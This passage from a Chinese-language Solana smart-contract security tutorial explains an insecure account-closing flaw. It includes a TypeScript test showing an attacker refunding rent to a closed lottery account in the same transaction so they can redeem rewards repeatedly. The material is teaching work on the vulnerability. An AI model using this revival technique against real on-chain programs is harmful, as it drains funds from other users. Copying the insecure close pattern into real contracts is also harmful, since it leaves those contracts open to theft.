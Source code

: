 成功阻止其帐户关闭的攻击者随后可以多次调用 `redeem_rewards_insecure`，索取超过其应得奖励的奖励。

一些起始测试已经编写，展示了这种漏洞。查看 `tests` 目录中的 `closing-accounts.ts` 文件。`before` 函数中有一些设置，然后有一个简单的测试为 `attacker` 创建一个新的彩票条目。

最后，有一个测试演示了攻击者如何在索取奖励后保持帐户存活，并再次索取奖励。该测试如下所示：

```typescript
it("attacker  can close + refund lottery acct + claim multiple rewards", async () => {
    // claim multiple times
    for (let i = 0; i < 2; i++) {
      const tx = new Transaction()
      // instruction claims rewards, program will try to close account
      tx.add(
        await program.methods
          .redeemWinningsInsecure()
          .accounts({
            lotteryEntry: attackerLotteryEntry,
            user: attacker.publicKey,
            userAta: attackerAta,
            rewardMint: rewardMint,
            mintAuth: mintAuth,
            tokenProgram: TOKEN_PROGRAM_ID,
          })
          .instruction()
      )

      // user adds instruction to refund dataAccount lamports
      const rentExemptLamports =
        await provider.connection.getMinimumBalanceForRentExemption(
          82,
          "confirmed"
        )
      tx.add(
        SystemProgram.transfer({
          fromPubkey: attacker.publicKey,
          toPubkey: attackerLotteryEntry,
          lamports: rentExemptLamports,
        })
      )
      // send tx
      await sendAndConfirmTransaction(provider.connection, tx, [attacker])
      await new Promise((x) => setTimeout(x, 5000))
    }

    const ata = await getAccount(provider.connection, attackerAta)
    const lotteryEntry = await program.account.lotteryAccount.fetch(
      attackerLotteryEntry
    )

    expect(Number(ata.amount)).to.equal(
      lotteryEntry.timestamp.toNumber() * 10 * 2
    )
})
```
